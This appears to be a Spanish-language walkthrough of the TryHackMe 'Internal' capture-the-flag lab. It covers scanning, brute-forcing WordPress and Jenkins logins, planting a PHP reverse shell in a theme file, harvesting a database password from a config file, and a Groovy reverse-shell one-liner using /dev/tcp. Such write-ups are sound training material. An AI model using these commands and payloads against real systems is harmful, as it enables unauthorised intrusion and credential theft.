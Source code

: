 1. **Modificar el archivo /etc/hosts**

       - IP internal.thm

2. **Nmap** 

       - sudo nmap -sV -sC -Pn -v 10.10.17.84 -o port_scan

3. **Uso de dirb**
 ````
---- Scanning URL: http://10.10.17.84/ ----
==> DIRECTORY: http://10.10.17.84/blog/
+ http://10.10.17.84/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.17.84/javascript/
==> DIRECTORY: http://10.10.17.84/phpmyadmin/
+ http://10.10.17.84/server-status (CODE:403|SIZE:276)
==> DIRECTORY: http://10.10.17.84/wordpress/
 ````

4. **Escaneo en Wordpress**
 ````
[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://internal.thm/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 
[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.6
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a f>
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
  ````
5. **Fuerza bruta en Wordpress**

        - wpscan --url http://internal.thm/blog/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin --max-threads 50
        ````
        [!] Valid Combinations Found:
        | Username: admin, Password: *******
        Correo: admin@internal.thm
        ````
6. **Creamos una reverse shell en Wordpress**

        -  Vamos a los temas
        - Customize
        - Inyectamos en 404.php la reverse shell --> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
        - Nos conectamos: http://10.10.17.84/wordpress/wp-content/themes/twentyseventeen/404.php
        - Estamos a la escucha: nc -lvp 4444
7. **Usuario phpmyadmin**

        - Encontramos un usuario pero no podemo acceder a su directorio. Seguimos buscando:
        - En /etc/phmyadmin encontramos unas credenciales:
                -- cat config-db.php
                
         ````
         <?php
        ##
        ## database access settings in php format
        ## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
        ## by /usr/sbin/dbconfig-generate-include
        ##
        ## by default this file is managed via ucf, so you shouldn't have to
        ## worry about manual changes being silently discarded.  *however*,
        ## you'll probably also want to edit the configuration file mentioned
        ## above too.
        ##
        $dbuser='phpmyadmin';
        $dbpass='B2Ud4fEOZmVq';
        ````
        
8.  **Accedemos y no se encuentra nada.**
9. **Tras una larga busqueda de versiones, exploits, etc. Encontramos en el directorio /opt un .txt con credenciales.**
        
        - aubreanna:*****

10. **Nos conectamos por SSH y nos encontramos con el archivo jenkins.txt:**
        
         Internal Jenkins service is running on 172.17.0.2:8080

11. **Creamos un proxy socks para ver que nos encontramos**
        . ssh -D "10101" -q -N -f aubreanna@10.10.17.84
        . Configuramos el proxy en firefox y nos conectamos.
        . Nos encontramos un login de jenkins.
        
12. **Realizamos un ataque de fuerza bruta contra el servicio**

        - proxychains hydra 172.17.0.2 -s 8080 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or >
        
        - Contraseña encontrada:
        ````
       [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [proxychains] Strict chain  ...  127.0.0.1:10101  ...  172.17.0.2:8080 [8080]            [http-post-form] host: 172.17.0.2
       login: admin   password: *******
       [STATUS] attack finished for 172.17.0.2 (valid pair found)
       1 of 1 target successfully completed, 1 valid password found
       ````
13. **Creamos una reverse shell en jenkins.**

        - Manage --> Script console
        - Groovy script:
     
       ````
       r = Runtime.getRuntime()
       p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.17.84/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
       p.waitFor()
       ````


14. **Tenemos una shell como usuario jenkins.**

        - En el directorio /opt --> note.txt
        - root:*******

15. **Accedemos por ssh**

        - root.txt
        - Obtenemos la flag: ***********


